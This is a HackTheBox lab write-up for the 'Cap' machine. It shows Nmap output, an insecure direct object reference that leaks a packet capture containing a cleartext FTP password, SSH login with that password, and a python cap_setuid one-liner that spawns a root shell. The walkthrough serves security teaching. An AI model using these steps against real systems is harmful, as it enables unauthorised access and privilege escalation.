




+++
authors = ["Matt Johnson"]
title = 'HTB: Cap Writeup'
date = '2021-10-10'
description = "Here's how to solve HackTheBox's Cap."
draft = false
tags = ["hackthebox","security"]
summary = "Here's how to solve HackTheBox's Cap."
+++



# High-Level Information

Machine Name: Cap

IP Address: 10.10.10.245

Difficulty: Easy

Summary: HackTheBox's Cap was retired last week, and was perhaps among the easiest of all of the machines that I've completed. It is an excellent box for absolute beginners as the exploitation steps are simple both to understand and to execute. Initial enumeration via `Nmap` reveals a web application that serves as a security dashboard. Within the web application, the user can view a variety of processes and networking configurations. One of the pages, located within the `/data/` directory, allows the user to view a 5-second packet capture. As the IDs are linear and predictable, the attacker can manually modify the parameters of the request to view past packet captures, one of which includes credentials. Using those credentials to log in via `ssh` as `nathan`, automated enumeration scripts are utilized to identify a special Linux capability for the `python3.8` binary. Using that special capability, the unprivileged user is able to execute code as `root` and compromise the system.

Tools Used: Nmap, strings, linPEAS

# Initial Foothold

As is customary, I began enumerating the machine using Nmap:

```markdown
# Nmap 7.91 scan initiated Tue Jul 20 09:08:40 2021 as: nmap -sC -sV -p- -oA nmap/nmap 10.10.10.245
Nmap scan report for 10.10.10.245
Host is up (0.042s latency).
Not shown: 65532 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 fa:80:a9:b2:ca:3b:88:69:a4:28:9e:39:0d:27:d5:75 (RSA)
|   256 96:d8:f8:e3:e8:f7:71:36:c5:49:d5:9d:b6:a4:c9:0c (ECDSA)
|_  256 3f:d0:ff:91:eb:3b:f6:e1:9f:2e:8d:de:b3:de:b2:18 (ED25519)
80/tcp open  http    gunicorn
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 404 NOT FOUND
|     Server: gunicorn
|     Date: Tue, 20 Jul 2021 13:13:50 GMT
|     Connection: close
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 232
|     <!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
|     <title>404 Not Found</title>
|     <h1>Not Found</h1>
|     <p>The requested URL was not found on the server. If you entered the URL manually please check your spelling and try again.</p>
|   GetRequest: 
|     HTTP/1.0 200 OK
|     Server: gunicorn
|     Date: Tue, 20 Jul 2021 13:13:45 GMT
|     Connection: close
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 19386
|     <!DOCTYPE html>
|     <html class="no-js" lang="en">
|     <head>
|     <meta charset="utf-8">
|     <meta http-equiv="x-ua-compatible" content="ie=edge">
|     <title>Security Dashboard</title>
|     <meta name="viewport" content="width=device-width, initial-scale=1">
|     <link rel="shortcut icon" type="image/png" href="/static/images/icon/favicon.ico">
|     <link rel="stylesheet" href="/static/css/bootstrap.min.css">
|     <link rel="stylesheet" href="/static/css/font-awesome.min.css">
|     <link rel="stylesheet" href="/static/css/themify-icons.css">
|     <link rel="stylesheet" href="/static/css/metisMenu.css">
|     <link rel="stylesheet" href="/static/css/owl.carousel.min.css">
|     <link rel="stylesheet" href="/static/css/slicknav.min.css">
|     <!-- amchar
|   HTTPOptions: 
|     HTTP/1.0 200 OK
|     Server: gunicorn
|     Date: Tue, 20 Jul 2021 13:13:45 GMT
|     Connection: close
|     Content-Type: text/html; charset=utf-8
|     Allow: HEAD, GET, OPTIONS
|     Content-Length: 0
|   RTSPRequest: 
|     HTTP/1.1 400 Bad Request
|     Connection: close
|     Content-Type: text/html
|     Content-Length: 196
|     <html>
|     <head>
|     <title>Bad Request</title>
|     </head>
|     <body>
|     <h1><p>Bad Request</p></h1>
|     Invalid HTTP Version 'Invalid HTTP Version: 'RTSP/1.0''
|     </body>
|_    </html>
|_http-server-header: gunicorn
|_http-title: Security Dashboard
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port80-TCP:V=7.91%I=7%D=7/20%Time=60F6CAFE%P=x86_64-pc-linux-gnu%r(GetR
SF:equest,2FE5,"HTTP/1\.0\x20200\x20OK\r\nServer:\x20gunicorn\r\nDate:\x20
SF:Tue,\x2020\x20Jul\x202021\x2013:13:45\x20GMT\r\nConnection:\x20close\r\
SF:nContent-Type:\x20text/html;\x20charset=utf-8\r\nContent-Length:\x20193
SF:86\r\n\r\n<!DOCTYPE\x20html>\n<html\x20class=\"no-js\"\x20lang=\"en\">\
SF:n\n<head>\n\x20\x20\x20\x20<meta\x20charset=\"utf-8\">\n\x20\x20\x20\x2
SF:0<meta\x20http-equiv=\"x-ua-compatible\"\x20content=\"ie=edge\">\n\x20\
SF:x20\x20\x20<title>Security\x20Dashboard</title>\n\x20\x20\x20\x20<meta\
SF:x20name=\"viewport\"\x20content=\"width=device-width,\x20initial-scale=
SF:1\">\n\x20\x20\x20\x20<link\x20rel=\"shortcut\x20icon\"\x20type=\"image
SF:/png\"\x20href=\"/static/images/icon/favicon\.ico\">\n\x20\x20\x20\x20<
SF:link\x20rel=\"stylesheet\"\x20href=\"/static/css/bootstrap\.min\.css\">
SF:\n\x20\x20\x20\x20<link\x20rel=\"stylesheet\"\x20href=\"/static/css/fon
SF:t-awesome\.min\.css\">\n\x20\x20\x20\x20<link\x20rel=\"stylesheet\"\x20
SF:href=\"/static/css/themify-icons\.css\">\n\x20\x20\x20\x20<link\x20rel=
SF:\"stylesheet\"\x20href=\"/static/css/metisMenu\.css\">\n\x20\x20\x20\x2
SF:0<link\x20rel=\"stylesheet\"\x20href=\"/static/css/owl\.carousel\.min\.
SF:css\">\n\x20\x20\x20\x20<link\x20rel=\"stylesheet\"\x20href=\"/static/c
SF:ss/slicknav\.min\.css\">\n\x20\x20\x20\x20<!--\x20amchar")%r(HTTPOption
SF:s,B3,"HTTP/1\.0\x20200\x20OK\r\nServer:\x20gunicorn\r\nDate:\x20Tue,\x2
SF:020\x20Jul\x202021\x2013:13:45\x20GMT\r\nConnection:\x20close\r\nConten
SF:t-Type:\x20text/html;\x20charset=utf-8\r\nAllow:\x20HEAD,\x20GET,\x20OP
SF:TIONS\r\nContent-Length:\x200\r\n\r\n")%r(RTSPRequest,121,"HTTP/1\.1\x2
SF:0400\x20Bad\x20Request\r\nConnection:\x20close\r\nContent-Type:\x20text
SF:/html\r\nContent-Length:\x20196\r\n\r\n<html>\n\x20\x20<head>\n\x20\x20
SF:\x20\x20<title>Bad\x20Request</title>\n\x20\x20</head>\n\x20\x20<body>\
SF:n\x20\x20\x20\x20<h1><p>Bad\x20Request</p></h1>\n\x20\x20\x20\x20Invali
SF:d\x20HTTP\x20Version\x20'Invalid\x20HTTP\x20Version:\x20'RTSP
SF:/1\.0''\n\x20\x20</body>\n</html>\n")%r(FourOhFourRequest,189
SF:,"HTTP/1\.0\x20404\x20NOT\x20FOUND\r\nServer:\x20gunicorn\r\nDate:\x20T
SF:ue,\x2020\x20Jul\x202021\x2013:13:50\x20GMT\r\nConnection:\x20close\r\n
SF:Content-Type:\x20text/html;\x20charset=utf-8\r\nContent-Length:\x20232\
SF:r\n\r\n<!DOCTYPE\x20HTML\x20PUBLIC\x20\"-//W3C//DTD\x20HTML\x203\.2\x20
SF:Final//EN\">\n<title>404\x20Not\x20Found</title>\n<h1>Not\x20Found</h1>
SF:\n<p>The\x20requested\x20URL\x20was\x20not\x20found\x20on\x20the\x20ser
SF:ver\.\x20If\x20you\x20entered\x20the\x20URL\x20manually\x20please\x20ch
SF:eck\x20your\x20spelling\x20and\x20try\x20again\.</p>\n");
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Jul 20 09:11:21 2021 -- 1 IP address (1 host up) scanned in 160.86 seconds
```

Initial enumeration of the FTP service led to no interesting results, leaving me with only the web application to enumerate. I began by manually exploring the site:

   

One thing that stood out to me was that the `/data/` directory containing PCAP files seems to use an incremental numerical ID for each successive file. One can verify this by manually modifying the search to `/data/?` with `?` being whatever ID the user wishes to view. Incrementing the ID from one doesn't seem to provide anything useful, but decrementing the value leads the user to discover something highly interesting at `/data/0`:



Downloading and subsequently running the `strings` command leads to the discovery of a potential password:

```shell
┌──(kali@kali)-[~/htb/cap]
└─$ strings 0.pcap
EErP
EErP
GET / HTTP/1.1
Host: 192.168.196.16
...
220 (vsFTPd 3.0.3)
USER nathan
(su@
Jsv@
331 Please specify the password.
PASS Buck3tH4TF0RM3!
(sw@
?sx@
230 Login successful.
"]#P
SYST
...
┌──(kali@kali)-[~/htb/cap]
└─$
```

Utilizing the username `nathan`, which was identified on the security dashboard web application, I was able to log in to SSH:

```shell
┌──(kali@kali)-[~/htb/cap]
└─$ ssh nathan@10.10.10.245
nathan@10.10.10.245's password: 
Welcome to Ubuntu 20.04.2 LTS (GNU/Linux 5.4.0-80-generic x86_64)

    * Documentation:  https://help.ubuntu.com
    * Management:     https://landscape.canonical.com
    * Support:        https://ubuntu.com/advantage

    System information as of Wed Sep 15 19:34:44 UTC 2021

    System load:           0.0
    Usage of /:            36.6% of 8.73GB
    Memory usage:          20%
    Swap usage:            0%
    Processes:             221
    Users logged in:       0
    IPv4 address for eth0: 10.10.10.245
    IPv6 address for eth0: dead:beef::250:56ff:feb9:102a

    => There is 1 zombie process.

    * Super-optimized for small spaces - read how we shrank the memory
    footprint of MicroK8s to make it the smallest full K8s around.

    https://ubuntu.com/blog/microk8s-memory-optimisation

63 updates can be applied immediately.
42 of these updates are standard security updates.
To see these additional updates run: apt list --upgradable


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: Thu May 27 11:21:27 2021 from 10.10.14.7
nathan@cap:~$
```

# Privilege Escalation

Once on the box, the first step I generally take is to run an automated enumeration script such as `linpeas.sh`. Having already obtained valid credentials, transferring the script is trivial utilizing `scp`. Once on the box and running, I was able to identify a particular portion of the output that points to an easy privilege escalation:

```bash
Files with capabilities (limited to 50):
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip 
/usr/bin/ping = cap_net_raw+ep 
/usr/bin/traceroute6.iputils = cap_net_raw+ep 
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep 
```

The `cap_setuid` [capability](https://manpages.debian.org/testing/libcap-dev/cap_setuid.3.en.html) being assigned to python is an obvious target for exploitation. Essentially, that capability allows any running python process to arbitrarily manipulate Linux `uid` values while performing system calls. This means that a python script could simply state that it needs to run a given system call as `root` and make it so for that particular command only. From an attacker's perspective, it doesn't really matter whether that capability is ephemeral as the user can simply utilize it to create a new shell session as `root`.

[GTFObins](https://gtfobins.github.io/gtfobins/python/) provides attackers with a simple command to run to exploit the capability:

```shell
nathan@cap:~$ which python
nathan@cap:~$ which python3
/usr/bin/python3
nathan@cap:~$ python3 -c 'import os; os.setuid(0); os.system("/usr/bin/bash")'
root@cap:~# id
uid=0(root) gid=1001(nathan) groups=1001(nathan)
root@cap:~# 
```